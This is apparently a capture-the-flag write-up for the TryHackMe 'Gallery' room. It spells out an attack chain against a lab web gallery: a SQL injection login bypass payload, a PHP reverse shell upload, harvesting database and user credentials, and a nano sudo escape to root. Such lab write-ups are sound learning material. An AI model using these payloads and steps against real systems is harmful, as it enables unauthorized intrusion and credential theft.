

# [Gallery](https://tryhackme.com/room/gallery666)

First as usual, `nmap`.

```
# Nmap 7.92 scan initiated Mon Feb 14 16:28:38 2022 as: nmap -vvv -p 80,8080 -sCV -oA init 10.10.137.122
Nmap scan report for 10.10.137.122
Host is up, received syn-ack (0.28s latency).
Scanned at 2022-02-14 16:28:52 +07 for 19s

PORT     STATE SERVICE REASON  VERSION
80/tcp   open  http    syn-ack Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
| http-methods:
|_  Supported Methods: HEAD GET POST OPTIONS
|_http-title: Apache2 Ubuntu Default Page: It works
8080/tcp open  http    syn-ack Apache httpd 2.4.29 ((Ubuntu))
|_http-favicon: Unknown favicon MD5: BBF0117BA685754DB6E81BA8AEEAD310
|_http-server-header: Apache/2.4.29 (Ubuntu)
| http-cookie-flags:
|   /:
|     PHPSESSID:
|_      httponly flag not set
|_http-title: Simple Image Gallery System
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:CONNECTION
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Feb 14 16:29:11 2022 -- 1 IP address (1 host up) scanned in 33.44 seconds
```

Port 80 is just the Apache2 Ubuntu Default Page, while port 8080 redirects us to `/gallery/login.php` on port 80.


To disable the redirect, I tried saving `http://10.10.137.122:8080/` to a file, removed the line `<script>location.href="http://10.10.137.122/gallery/./login.php"</script><head>`, and viewed the changed page.


Since port 8080 just redirects us to `/gallery/login.php`, I figured I should look at the login page first.
I tried logging in with `' or 1=1 -- -` as the username and got log in as Admin.
We also see that it's the same page as the one from port 8080.

Looking around, I found that on the "My Account" page, we can upload files.


I tried uploading a PHP reverse shell, intercepting the whole Update process and got the path to the uploaded file.



After setting up a listener, going to the uploaded should give us a shell as `www-data` on the machine.

Checking `/home` and `/etc/passwd`, we see 2 non-root users with shells on the machine: ubuntu & mike.

```sh
www-data@gallery:/home/mike$ ls -la /home
total 16
drwxr-xr-x  4 root root 4096 May 20  2021 .
drwxr-xr-x 23 root root 4096 Feb 12 21:42 ..
drwxr-xr-x  6 mike mike 4096 Aug 25 09:15 mike
drwx------  4 root root 4096 May 20  2021 ubuntu

www-data@gallery:/$ grep 'sh$' /etc/passwd
root:x:0:0:root:/root:/bin/bash
ubuntu:x:1000:1000:ubuntu:/home/ubuntu:/bin/bash
mike:x:1001:1001:mike:/home/mike:/bin/bash
```

Looking in `/var/www/html/gallery`, we see that `initialize.php` contains database credentials which can be used to log into MySQL and enumerate the `gallery_db` database.

```sh
www-data@gallery:/var/www/html/gallery$ mysql -u gallery_user -p gallery_db
```

The `users` table contains admin's password hash.

Checking `/var/backup`, we have the directory `mike_home_backup`, inside which the file `.bash_history` contains mike's password which can be used to `su - mike`.

Checking mike's `sudo` privileges ...

```sh
mike@gallery:~$ sudo -l
Matching Defaults entries for mike on gallery:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User mike may run the following commands on gallery:
    (root) NOPASSWD: /bin/bash /opt/rootkit.sh
```

... we can run `/opt/rootkit.sh` as root. Looking at the file in question ...

```sh
#!/bin/bash

read -e -p "Would you like to versioncheck, update, list or read the report ? " ans;

# Execute your choice
case $ans in
    versioncheck)
        /usr/bin/rkhunter --versioncheck ;;
    update)
        /usr/bin/rkhunter --update;;
    list)
        /usr/bin/rkhunter --list;;
    read)
        /bin/nano /root/report.txt;;
    *)
        exit;;
esac
```

... we see that `nano` can be run. After running `/bin/bash /opt/rootkit.sh` followed by `read` for `nano`, following [gtfobins](https://gtfobins.github.io/gtfobins/nano/#sudo), we can get a shell by pressing `ctrl+r`, `ctrl+x`, and running `reset; sh 1>&0 2>&0` to get a shell as root.
